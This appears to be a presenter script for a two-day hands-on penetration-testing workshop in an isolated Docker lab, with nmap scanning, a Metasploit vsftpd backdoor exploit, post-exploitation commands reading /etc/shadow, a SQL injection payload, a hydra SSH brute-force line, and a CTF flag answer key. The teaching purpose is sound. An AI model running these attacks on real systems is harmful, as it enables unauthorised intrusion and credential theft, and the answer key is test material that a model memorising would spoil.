




# 🎤 HackCraft Workshop — Presenter Script

> **Full run-of-show with talking points, exact commands, verified expected outputs, and timing cues.**
> Last verified: 29 May 2026

---

## Visual Diagrams

Use these diagrams on slides or project them during the workshop.

### Lab Network Architecture



### Workshop Flow (Day 1 → Day 2)

```mermaid
flowchart LR
    subgraph "DAY 1 — Recon & Scanning"
        A["🔍 Host Discovery<br/><code>nmap -sn</code><br/>5 hosts found"] --> B["🚪 Port Scanning<br/><code>nmap</code><br/>21 ports on .30"]
        B --> C["📋 Service Detection<br/><code>nmap -sV</code><br/>vsftpd 2.3.4"]
        C --> D["🔎 Enumeration<br/><code>nmap --script</code><br/><code>curl -I</code>"]
        D --> E["📡 Aircrack Demo<br/>WPA2 cracking<br/><i>instructor-led</i>"]
    end

    subgraph "DAY 2 — Exploitation & CTF"
        F["📊 Vuln Assessment<br/><code>nmap --script vuln</code><br/><code>nikto</code>"] --> G["💣 Metasploit<br/>vsftpd backdoor<br/><b>ROOT SHELL</b>"]
        G --> H["💉 Command Injection<br/>DVWA<br/><code>;whoami</code>"]
        H --> I["🏁 CTF Challenge<br/>5 flags<br/>30 min"]
    end

    E --> F

    style A fill:#0d1117,stroke:#58a6ff,color:#58a6ff
    style B fill:#0d1117,stroke:#58a6ff,color:#58a6ff
    style C fill:#0d1117,stroke:#58a6ff,color:#58a6ff
    style D fill:#0d1117,stroke:#58a6ff,color:#58a6ff
    style E fill:#0d1117,stroke:#79c0ff,color:#79c0ff
    style F fill:#0d1117,stroke:#f78166,color:#f78166
    style G fill:#0d1117,stroke:#ff7b72,color:#ff7b72
    style H fill:#0d1117,stroke:#ff7b72,color:#ff7b72
    style I fill:#0d1117,stroke:#f5a623,color:#f5a623
```



### Pentest Methodology



### CTF Flag Map



### Metasploitable Attack Surface



---

## Pre-Flight Checklist (30 min before)

```bash
# 1. Start the lab environment
cd hackcraft-workshop
docker compose up -d

# 2. Verify all 4 containers are running
docker compose ps
# Expect: kali, dvwa, metasploitable, ctf-server — all "Up"

# 3. Quick smoke test
docker exec kali nmap -sn 10.10.10.0/24
# Expect: 5 hosts up

# 4. Verify DVWA is accessible
open http://localhost:8080  # or curl http://localhost:8080
# Login: admin / password

# 5. Verify CTF server
curl -I http://localhost:8888
# Should return 200 OK

# 6. Have cheatsheet.md open on a second screen or projector
```

### If something is broken:
```bash
docker compose down -v && docker compose up -d   # Full reset
docker compose build --no-cache kali              # Rebuild Kali if tools missing
```

---

# DAY 1 — Recon & Scanning (~2.5 hours)

---

## 1. Opening & Hook (10 min)

### Talking Points:
- **Open with a question:** *"How many of you have a Wi-Fi password shorter than 10 characters? Keep your hands up if it's a word you'd find in a dictionary."*
- **The reality:** *"By the end of today, you'll understand exactly why that's a problem. We're going to scan networks, discover services, and find vulnerabilities — the same way a real attacker would."*
- **Set the tone:** *"Everything we do here is in an isolated Docker environment. These are intentionally vulnerable machines. In the real world, you NEVER do this without explicit written permission. That's not just ethics — it's the law."*

### Key Messages:
- Penetration testing follows a methodology: **Recon → Scan → Enumerate → Exploit → Report**
- Today = Recon + Scan + Enumerate. Tomorrow = Exploit + CTF
- The goal is to **think like an attacker so you can defend like a professional**

---

## 2. Environment Setup (15 min)

### Talk through the architecture:

```
┌─────────────────────────────────────────────────────┐
│                  hackcraft-net (10.10.10.0/24)       │
│                                                      │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐  ┌──────┐ │
│  │   Kali   │  │   DVWA   │  │ Metasploit│  │ CTF  │ │
│  │ 10.10.10 │  │ 10.10.10 │  │  able     │  │Server│ │
│  │   .10    │  │   .20    │  │ 10.10.10  │  │10.10 │ │
│  │ Attacker │  │  Web App │  │   .30     │  │10.40 │ │
│  └──────────┘  └──────────┘  │  Linux    │  └──────┘ │
│                              └──────────┘            │
└─────────────────────────────────────────────────────┘
```

### Live demo — get everyone connected:

```bash
docker exec -it kali bash
```

**Say:** *"You should see `root@kali:~#`. You're now inside a Kali Linux container — the industry-standard penetration testing OS. This is your attacker machine for the workshop."*

```bash
nmap --version
# Nmap version 7.99 ( https://nmap.org )
```

**Say:** *"Good — Nmap is installed. This is the single most important tool in network security. Let's use it."*

---

## 3. Lab 1: Network Scanning with Nmap (30 min)

---

### Exercise 1: Host Discovery (8 min)

**Say:** *"Step one of any pentest: what's on the network? We don't know anything yet — we need to discover all live machines. Think of it as knocking on every door in a building."*

#### Command:
```bash
nmap -sn 10.10.10.0/24
```

#### Expected Output:
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-29 03:11 +0000
Nmap scan report for ip-10-10-10-1.ec2.internal (10.10.10.1)
Host is up (0.00067s latency).
MAC Address: BE:36:7D:E9:2C:21 (Unknown)
Nmap scan report for dvwa.hackcraft-workshop_hackcraft-net (10.10.10.20)
Host is up (0.00017s latency).
MAC Address: B2:06:3E:C5:D2:34 (Unknown)
Nmap scan report for metasploitable.hackcraft-workshop_hackcraft-net (10.10.10.30)
Host is up (0.000075s latency).
MAC Address: 9A:6F:EF:42:52:8F (Unknown)
Nmap scan report for ctf-server.hackcraft-workshop_hackcraft-net (10.10.10.40)
Host is up (0.000079s latency).
MAC Address: CE:A5:2B:74:06:1C (Unknown)
Nmap scan report for kali (10.10.10.10)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.29 seconds
```

#### Walk through the output:

**Say:**
- *"256 IP addresses scanned, 5 hosts up. The `-sn` flag means 'ping scan only' — no port scanning yet, just checking who's alive."*
- *"Notice 10.10.10.1 — that's the Docker gateway. .10 is us (Kali). .20, .30, and .40 are our targets."*
- *"Also notice Nmap resolved the hostnames — `dvwa`, `metasploitable`, `ctf-server`. DNS can leak a lot of info."*

#### Discussion Question:
> *"In a real network, this might return hundreds of hosts. How would you decide which ones to focus on?"*
> Expected answers: servers vs workstations, interesting hostnames, known IP ranges

---

### Exercise 2: Port Scanning (12 min)

**Say:** *"Now we know WHO is on the network. Next question: what doors are open on each machine? Every open port is a potential way in."*

#### Scan DVWA:
```bash
nmap 10.10.10.20
```

#### Expected Output:
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-29 03:11 +0000
Nmap scan report for dvwa.hackcraft-workshop_hackcraft-net (10.10.10.20)
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: B2:06:3E:C5:D2:34 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds
```

**Say:** *"Just one port — 80 (HTTP). This is a web server. Clean, minimal attack surface."*

#### Scan Metasploitable (THE BIG ONE):
```bash
nmap 10.10.10.30
```

#### Expected Output:
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-29 03:11 +0000
Nmap scan report for metasploitable.hackcraft-workshop_hackcraft-net (10.10.10.30)
Host is up (0.0000030s latency).
Not shown: 979 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 9A:6F:EF:42:52:8F (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds
```

**Build the drama here:**
- *"21 open ports. TWENTY-ONE. Compare that to DVWA's single port."*
- *"This machine is running FTP, SSH, Telnet, a mail server, two web servers, two databases, VNC, IRC... this is a nightmare from a security perspective."*
- *"Each one of these is a potential entry point. This is why we call it 'Metasploitable' — it's designed to be exploited."*

#### Quick mention of port states:
| State | Meaning |
|-------|---------|
| `open` | Service is listening — potential entry point |
| `closed` | Port reachable but nothing listening |
| `filtered` | Firewall blocking — can't tell if open or closed |

#### Scan CTF Server:
```bash
nmap 10.10.10.40
```

#### Expected Output:
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-29 03:11 +0000
Nmap scan report for ctf-server.hackcraft-workshop_hackcraft-net (10.10.10.40)
Host is up (0.0000080s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: CE:A5:2B:74:06:1C (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds
```

**Say:** *"SSH and HTTP — a typical server setup. Seems locked down... but we'll see about that in the CTF tomorrow."*

---

### Exercise 3: Service Version Detection (10 min)

**Say:** *"We know WHAT ports are open. Now let's find out exactly WHAT SOFTWARE and WHAT VERSION is running. This is critical — version numbers tell us what exploits might work."*

#### Command:
```bash
nmap -sV 10.10.10.30
```

> ⏱️ **TIMING NOTE:** This takes ~2.5 minutes on Metasploitable (21 ports to probe). Use the wait time to explain what `-sV` does — Nmap sends protocol-specific probes to each port and matches the responses against a database of known service signatures.

#### Expected Output:
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-29 03:11 +0000
Nmap scan report for metasploitable.hackcraft-workshop_hackcraft-net (10.10.10.30)
Host is up (0.0000020s latency).
Not shown: 979 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec?
513/tcp  open  login
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  ingreslock?
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
Service Info: Hosts: metasploitable.localdomain, irc.Metasploitable.LAN;
              OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 153.46 seconds
```

**Key callouts:**

| Finding | Why It Matters |
|---------|---------------|
| `vsftpd 2.3.4` | **Known backdoor (CVE-2011-2523)** — we'll exploit this tomorrow! |
| `OpenSSH 4.7p1` | Ancient version, multiple vulnerabilities |
| `Apache 2.2.8` | End of life, known exploits |
| `MySQL 5.0.51a` | Extremely old, default creds likely |
| `UnrealIRCd` | Has a known backdoor too |
| `ProFTPD 1.3.1` | Multiple remote code execution CVEs |

**Say:** *"Look at vsftpd 2.3.4 — remember that version number. Tomorrow, we're going to use Metasploit to walk right through the backdoor that was hidden in that exact version. This is why version detection matters."*

#### Also scan the other targets (quick):

```bash
nmap -sV 10.10.10.20
```
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
```

```bash
nmap -sV 10.10.10.40
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6 (protocol 2.0)
80/tcp open  http    nginx
```

**Say:** *"See the difference? CTF server runs modern software — OpenSSH 9.6, nginx. DVWA runs Apache 2.4.25. Metasploitable is stuck in 2008. Age of software = attack surface."*

---

### Bonus: Aggressive Scan Demo (if time allows, 5 min)

```bash
nmap -A -p 21,22,80 10.10.10.30
```

#### Expected Output (highlights):
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|      Connected to 10.10.10.10
|      Logged in as ftp
|      vsFTPd 2.3.4 - secure, fast, stable
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-title: Metasploitable2 - Linux
```

**Say:**
- *"The `-A` flag is aggressive — versions, OS detection, scripts, AND traceroute all at once."*
- *"Anonymous FTP login allowed! That means anyone can connect to the FTP server without a password. In a real environment, that's data leakage waiting to happen."*

---

### Lab 1 Recap (3 min)

**Say:** *"Let's recap what we just did in 30 minutes:"*
1. **Host discovery** — Found 5 machines on the network
2. **Port scanning** — Identified 21 open ports on Metasploitable vs 1 on DVWA
3. **Service detection** — Got exact software names and version numbers
4. **Already found vulnerabilities** — vsftpd 2.3.4 backdoor, anonymous FTP, ancient software

*"This is exactly what happens in the first phase of a professional penetration test. And we haven't even tried to break in yet."*

---

## 4. Lab 2: Enumeration & DVWA (30 min)

> See `labs/day1/lab2-enumeration.md` for full exercises.
> Key moments to hit:

### The `curl -I` Reveal:

```bash
curl -I http://10.10.10.40
```

#### Expected Output:
```
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 29 May 2026 03:14:31 GMT
Content-Type: text/html
Content-Length: 3526
Last-Modified: Sun, 17 May 2026 12:14:46 GMT
Connection: keep-alive
ETag: "6a09b136-dc6"
X-Secret-Flag: HACKCRAFT{http_headers_hide_secrets}
Accept-Ranges: bytes
```

> **DO NOT point out the flag yet!** Just say: *"Look carefully at ALL the headers. Does anything look unusual? Keep this in mind for tomorrow's CTF..."*
> If someone spots it, congratulate them — they just found CTF Flag 1.

---

## 5. Demo: Aircrack-ng (20 min)

> See `labs/day1/demo-aircrack.md` for the full walkthrough.
> This is **instructor-led only** — no hands-on.

### Talking Points:
- Walk through the 4-step attack: Monitor → Capture → Handshake → Crack
- Explain that this requires physical hardware (wireless adapter in monitor mode) — can't do in Docker
- If you have a wireless adapter, demo live on a test network you own
- If not, walk through the commands conceptually with slides

### End with the defense table:
| Do | Don't |
|----|-------|
| Use WPA3 if available | Use WEP |
| Use 12+ character passwords | Use dictionary words |
| Mix letters, numbers, symbols | Use personal info |

**Say:** *"A password like `password123` is cracked in seconds against a 14-million-word dictionary. A random 16-character passphrase takes millions of years."*

---

## 6. Day 1 Wrap-up (5 min)

**Recap the day:**
- Nmap is the single most important recon tool
- We scanned a network, found machines, discovered services, identified vulnerabilities
- We haven't broken into anything yet — that's tomorrow

**Homework (optional):**
- *"Try to find Flag 1 on the CTF server. Hint: you already have all the tools and knowledge from today."*
- Leave containers running: `docker compose ps` to verify

---

# DAY 2 — Exploitation & CTF (~2.5 hours)

---

## 1. Quick Recap (5 min)

**Ask the room:**
- *"What tool did we use yesterday?"* → Nmap
- *"How many ports were open on Metasploitable?"* → 21
- *"What was running on port 21?"* → vsftpd 2.3.4
- *"Why does that version matter?"* → It has a known backdoor

**Show the lifecycle:**
```
Recon → Vulnerability Discovery → Exploit Selection → Exploitation → Post-Exploitation
 Day 1      Lab 3 (today)           Lab 4              Lab 4            Lab 4
```

---

## 2. Lab 3: Vulnerability Assessment (25 min)

> See `labs/day2/lab3-vulnerability-assessment.md` for full exercises.

**Say:** *"Before we attack, we need to formally document what's vulnerable. In the real world, you'd hand this report to the client."*

#### Key command:
```bash
nmap -sV --script vuln 10.10.10.30 -oN /root/vuln-metasploitable.txt
```

> ⏱️ Takes 2-5 minutes. Use wait time to explain CVSS scoring.

#### Walk through the vulnerability table exercise:

| # | Service | Port | Vulnerability | CVE | Severity |
|---|---------|------|--------------|-----|----------|
| 1 | vsftpd 2.3.4 | 21 | Backdoor command execution | CVE-2011-2523 | **Critical** |
| 2 | UnrealIRCd | 6667 | Backdoor command execution | CVE-2010-2075 | **Critical** |
| 3 | Samba smbd | 139/445 | Username map script | CVE-2007-2447 | **High** |
| 4 | Apache 2.2.8 | 80 | Multiple known vulns | Various | **Medium-High** |

---

## 3. Lab 4: Metasploit Exploitation (40 min)

> See `labs/day2/lab4-metasploit.md` for full exercises.

### The Big Moment — vsftpd Exploit:

Walk through each step slowly. Pause after `run` to let the room react.

```
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.30
run
```

**When they see `uid=0(root)`:**
- *"You now have ROOT access. The highest privilege. You own this machine."*
- *"This took us 4 commands. In the real world, this is how breaches happen — known vulnerabilities, unpatched software."*

### Post-exploitation commands to demo:
```bash
whoami          # root
cat /etc/shadow # password hashes — only root can see this
ls /home/       # user directories
ifconfig        # network config — pivot to other networks
```

---

## 4. Lab 5: Mini CTF (30 min)

### Flag Answers (for you — don't share until debrief):

| # | Flag | Category | How |
|---|------|----------|-----|
| 1 | `HACKCRAFT{http_headers_hide_secrets}` | Info Disclosure | `curl -I http://10.10.10.40` → look for `X-Secret-Flag` header |
| 2 | `HACKCRAFT{directory_brute_force_wins}` | Directory Enum | `dirb http://10.10.10.40` → find `/secret/` → `curl http://10.10.10.40/secret/flag.txt` |
| 3 | Hidden in login.php | SQL Injection | `' OR role='hidden' -- ` as username |
| 4 | In `~/flag.txt` on CTF server | Password Cracking | `hydra -l ctfuser -P rockyou-mini.txt ssh://10.10.10.40` → SSH in |
| 5 | In `/root/flag.txt` on Metasploitable | Exploitation | vsftpd exploit → `grep -r "HACKCRAFT" /root/` |

### Running the CTF:
- Release everyone to work solo or in pairs
- Circulate the room — help with Flags 1-2 early so no one gets stuck
- At the 20-min mark, give a "5 flags found in the room" type update
- If using a scoreboard, project it

---

## 5. Closing (10 min)

### Debrief each flag quickly:
Walk through each flag's solution. For each one, connect it to a real-world lesson:
- Flag 1 → *"Never leak info in HTTP headers — check yours at securityheaders.com"*
- Flag 2 → *"This is why `robots.txt` and directory listings are security risks"*
- Flag 3 → *"SQL injection is still OWASP #1 — always use parameterized queries"*
- Flag 4 → *"This is why password policies exist — and why MFA matters even more"*
- Flag 5 → *"Patch your software. vsftpd 2.3.4 was compromised in 2011 — 15 years ago"*

### Final message:
*"Everything you did in this workshop — scanning, exploiting, cracking — is exactly what real attackers do every day. The difference between a hacker and a security professional is permission and ethics. Now you understand both sides."*

### Next steps for attendees:
- **TryHackMe** (tryhackme.com) — Guided beginner rooms
- **HackTheBox** (hackthebox.com) — More advanced challenges
- **OSCP** — Industry-standard penetration testing certification
- Keep this repo — `docker compose up -d` any time you want to practice

### Cleanup:
```bash
docker compose down -v
```

---

## Quick Reference: All Commands in Order

| # | Command | Time | Purpose |
|---|---------|------|---------|
| 1 | `docker exec -it kali bash` | 0:00 | Enter attacker machine |
| 2 | `nmap -sn 10.10.10.0/24` | 0:02 | Discover hosts (~2s) |
| 3 | `nmap 10.10.10.20` | 0:05 | Port scan DVWA (~0.2s) |
| 4 | `nmap 10.10.10.30` | 0:06 | Port scan Metasploitable (~0.1s) |
| 5 | `nmap 10.10.10.40` | 0:07 | Port scan CTF server (~0.2s) |
| 6 | `nmap -sV 10.10.10.30` | 0:10 | Service versions (~2.5 min) |
| 7 | `nmap -sV 10.10.10.20` | 0:15 | Service versions DVWA (~7s) |
| 8 | `nmap -sV 10.10.10.40` | 0:16 | Service versions CTF (~6s) |
| 9 | `nmap -A -p 21,22,80 10.10.10.30` | 0:18 | Aggressive scan (~9s) |
| 10 | `nmap --script vuln 10.10.10.30` | Day 2 | Vulnerability scan (~3 min) |
| 11 | `curl -I http://10.10.10.40` | Day 1 | HTTP headers (Flag 1 planted) |
| 12 | `msfconsole` → exploit vsftpd | Day 2 | The big exploit moment |

---

## Timing Summary

| Block | Duration | Running Total |
|-------|----------|---------------|
| **Day 1** | | |
| Opening & Hook | 10 min | 0:10 |
| Environment Setup | 15 min | 0:25 |
| Lab 1: Network Scanning | 30 min | 0:55 |
| Lab 2: Enumeration | 30 min | 1:25 |
| Break | 10 min | 1:35 |
| Demo: Aircrack-ng | 20 min | 1:55 |
| Day 1 Wrap-up | 5 min | 2:00 |
| **Day 2** | | |
| Recap | 5 min | 0:05 |
| Lab 3: Vuln Assessment | 25 min | 0:30 |
| Lab 4: Metasploit | 40 min | 1:10 |
| Break | 10 min | 1:20 |
| Lab 5: CTF | 30 min | 1:50 |
| Closing & Debrief | 10 min | 2:00 |
